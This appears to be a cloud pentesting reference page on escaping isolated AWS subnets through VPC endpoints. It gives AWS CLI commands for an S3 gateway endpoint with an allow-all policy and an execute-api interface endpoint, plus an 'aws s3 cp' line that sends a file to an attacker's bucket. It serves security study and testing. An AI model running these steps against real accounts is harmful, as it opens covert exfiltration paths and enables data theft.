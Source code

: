 # AWS – Egress Bypass from Isolated Subnets via VPC Endpoints

## Summary

This technique abuses VPC Endpoints to create exfiltration channels from subnets without Internet Gateways or NAT. Gateway endpoints (e.g., S3) add prefix‑list routes into the subnet route tables; Interface endpoints (e.g., execute-api, secretsmanager, ssm, etc.) create reachable ENIs with private IPs protected by security groups. With minimal VPC/EC2 permissions, an attacker can enable controlled egress that doesn’t traverse the public Internet.

> Prereqs: existing VPC and private subnets (no IGW/NAT). You’ll need permissions to create VPC endpoints and, for Option B, a security group to attach to the endpoint ENIs.

## Option A – S3 Gateway VPC Endpoint

**Variables**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `RTB_IDS=<comma-separated route table IDs of private subnets>`

1) Create a permissive endpoint policy file (optional). Save as `allow-put-get-any-s3.json`:

```json
{
  "Version": "2012-10-17",
  "Statement": [ { "Effect": "Allow", "Action": ["s3:*"], "Resource": ["*"] } ]
}
```

2) Create the S3 Gateway endpoint (adds S3 prefix‑list route to the selected route tables):

```bash
aws ec2 create-vpc-endpoint \
  --vpc-id $VPC_ID \
  --service-name com.amazonaws.$REGION.s3 \
  --vpc-endpoint-type Gateway \
  --route-table-ids $RTB_IDS \
  --policy-document file://allow-put-get-any-s3.json   # optional
```

Evidence to capture:
- `aws ec2 describe-route-tables --route-table-ids $RTB_IDS` shows a route to the AWS S3 prefix list (e.g., `DestinationPrefixListId=pl-..., GatewayId=vpce-...`).
- From an instance in those subnets (with IAM perms) you can exfil via S3 without Internet:

```bash
# On the isolated instance (e.g., via SSM):
echo data > /tmp/x.txt
aws s3 cp /tmp/x.txt s3://<your-bucket>/egress-test/x.txt --region $REGION
```

## Option B – Interface VPC Endpoint for API Gateway (execute-api)

**Variables**
- `REGION=us-east-1`
- `VPC_ID=<target vpc>`
- `SUBNET_IDS=<comma-separated private subnets>`
- `SG_VPCE=<security group for the endpoint ENIs allowing 443 from target instances>`

1) Create the interface endpoint and attach the SG:

```bash
aws ec2 create-vpc-endpoint \
  --vpc-id $VPC_ID \
  --service-name com.amazonaws.$REGION.execute-api \
  --vpc-endpoint-type Interface \
  --subnet-ids $SUBNET_IDS \
  --security-group-ids $SG_VPCE \
  --private-dns-enabled
```

Evidence to capture:
- `aws ec2 describe-vpc-endpoints` shows the endpoint in `available` state with `NetworkInterfaceIds` (ENIs in your subnets).
- Instances in those subnets can reach Private API Gateway endpoints through those VPCE ENIs (no Internet path required).

## Impact
- Bypasses perimeter egress controls by leveraging AWS‑managed private paths to AWS services.
- Enables data exfiltration from isolated subnets (e.g., writing to S3; calling Private API Gateway; reaching Secrets Manager/SSM/STS, etc.) without IGW/NAT.

